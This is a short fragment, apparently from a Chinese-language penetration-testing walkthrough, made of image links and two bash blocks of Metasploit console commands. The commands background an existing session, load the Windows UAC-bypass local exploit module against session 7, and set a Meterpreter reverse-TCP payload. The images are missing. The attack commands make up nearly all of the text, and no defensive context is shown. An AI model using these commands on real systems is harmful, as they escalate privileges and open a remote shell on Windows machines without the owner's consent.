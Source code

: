​![image](assets/image-20241028194928-hbrxvp3.png)​

```bash
backgroud  //退出会话，这里是会话7
```

​![image](assets/image-20241028194953-n3s6hx9.png)​

```bash
use exploit/windows/local/bypassuac
show options
set session 7
set payload windows/meterpreter/reverse_tcp
```

​![image](assets/image-20241028195026-1dkvx20.png)​
